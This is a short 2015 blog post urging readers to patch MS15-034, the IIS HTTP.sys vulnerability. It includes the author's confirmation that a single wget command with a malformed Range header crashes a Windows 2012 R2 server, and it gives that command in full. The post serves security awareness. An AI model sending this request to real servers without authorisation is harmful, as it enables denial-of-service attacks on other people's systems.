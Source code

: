 ```yaml
---
comments: true
layout: post
title: MS15-034 Patch NOW!
date: '2015-04-20T13:43:00.000+01:00'
tags:
- Security
---
```

So I finally had a chance to test this little doozy of an issue this lunchtime. Crash a webserver by issuing a simple wget command?

<img style="display: block; margin-left: auto; margin-right: auto;" alt="tweethello" src="/images/ms15-034-patch-now/MS15-034.JPG">

Yep, I can confirm that this is a good 'un against a Windows 2012R2 server as you can see in my screenshot above.  

`wget --header="Range: bytes=18-18446744073709551615" http://[ip address]/`

Find out more here from the SANS Internet Storm Center here:  
[SANS Internet Storm Center](https://isc.sans.edu/forums/diary/MS15034+HTTPsys+IIS+DoS+And+Possible+Remote+Code+Execution+PATCH+NOW/19583/)  

And here:  
<iframe allowfullscreen="" frameborder="0" height="315" src="https://www.youtube.com/embed/EZ0wo5UDkig" width="560"> </iframe>  

Microsoft MS15-034 Security Bulletin:  
[https://technet.microsoft.com/en-us/library/security/ms15-034.aspx](https://technet.microsoft.com/en-us/library/security/ms15-034.aspx)  

-Chris

